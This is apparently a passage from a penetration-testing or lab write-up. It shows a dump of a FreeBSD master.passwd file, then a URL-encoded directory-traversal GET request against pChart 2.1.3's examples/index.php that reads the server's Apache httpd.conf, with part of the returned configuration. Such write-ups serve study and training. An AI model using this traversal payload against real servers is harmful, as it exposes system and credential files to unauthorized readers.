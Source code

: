 ```bash
#&nbsp;$FreeBSD:&nbsp;release/9.0.0/etc/master.passwd&nbsp;218047&nbsp;2011-01-28&nbsp;22:29:38Z&nbsp;pjd&nbsp;$
#
root:*:0:0:Charlie&nbsp;&amp;:/root:/bin/csh
toor:*:0:0:Bourne-again&nbsp;Superuser:/root:
daemon:*:1:1:Owner&nbsp;of&nbsp;many&nbsp;system&nbsp;processes:/root:/usr/sbin/nologin
operator:*:2:5:System&nbsp;&amp;:/:/usr/sbin/nologin
bin:*:3:7:Binaries&nbsp;Commands&nbsp;and&nbsp;Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty&nbsp;Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem&nbsp;Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games&nbsp;pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News&nbsp;Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister&nbsp;Man&nbsp;Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure&nbsp;Shell&nbsp;Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail&nbsp;Submission&nbsp;User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail&nbsp;Default&nbsp;User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind&nbsp;Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet&nbsp;Filter&nbsp;pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd&nbsp;privsep&nbsp;user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp&nbsp;programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP&nbsp;pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post&nbsp;Office&nbsp;Owner:/nonexistent:/usr/sbin/nologin
www:*:80:80:World&nbsp;Wide&nbsp;Web&nbsp;Owner:/nonexistent:/usr/sbin/nologin
hast:*:845:845:HAST&nbsp;unprivileged&nbsp;user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged&nbsp;user:/nonexistent:/usr/sbin/nologin
mysql:*:88:88:MySQL&nbsp;Daemon:/var/db/mysql:/usr/sbin/nologin
ossec:*:1001:1001:User&nbsp;&amp;:/usr/local/ossec-hids:/sbin/nologin
ossecm:*:1002:1001:User&nbsp;&amp;:/usr/local/ossec-hids:/sbin/nologin
ossecr:*:1003:1001:User&nbsp;&amp;:/usr/local/ossec-hids:/sbin/nologin
</span>
</code>
```
The Apache server configuration file (see apache22.conf):
```bash
GET /pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr%2flocal%2fetc%2fapache22%2fhttpd.conf

<code><span style="color: #000000">
#
# This is the main Apache HTTP server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See  <URL:http://httpd.apache.org/docs/2.2 > for detailed information.
# In particular, see 
...

# Secure (SSL/TLS) connections
#Include etc/apache22/extra/httpd-ssl.conf
#
# Note: The following must must be present to support
#       starting without SSL on platforms with no /dev/random equivalent
#       but a statically compiled-in mod_ssl.
#
 <IfModule ssl_module >
SSLRandomSeed startup builtin
SSLRandomSeed connect builtin
 </IfModule >

SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser

 <VirtualHost *:8080 >
    DocumentRoot /usr/local/www/apache22/data2

 <Directory "/usr/local/www/apache22/data2" >
```